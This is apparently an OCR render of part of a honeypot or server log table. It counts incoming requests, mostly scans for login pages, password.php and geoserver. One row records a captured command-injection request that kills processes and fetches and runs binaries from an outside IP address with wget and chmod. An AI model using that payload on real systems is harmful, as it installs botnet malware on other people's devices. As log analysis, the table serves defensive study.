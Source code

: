 |  11 |                     7 | GET /systembc/password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                            |
|  12 |                     7 | GET /password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
|  13 |                     6 | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+drea4+efefa7;wget+http:/\x5C/93.123.109.120/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/93.123.109.120/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1                                                                                                                 |
|  14 |                     5 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                   |
|  15 |                     4 | GET /login.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                       |
|  16 |                     4 | SSH-2.0-Go                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  17 |                     4 | \x16\x03\x01\x01                                                                                                                                                                                                                                                                                                                                                                                                               |
|  18 |                     3 | GET /index.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                       |
|  19 |                     3 | GET /admin/index.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                 |
|  20 |                     3 | GET /doc/index.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                   |
|  21 |                     3 | GET /remote/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
|  22 |                     3 | GET /admin/assets/js/views/login.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                   |
|  23 |                     3 | GET /login.jsp HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                        |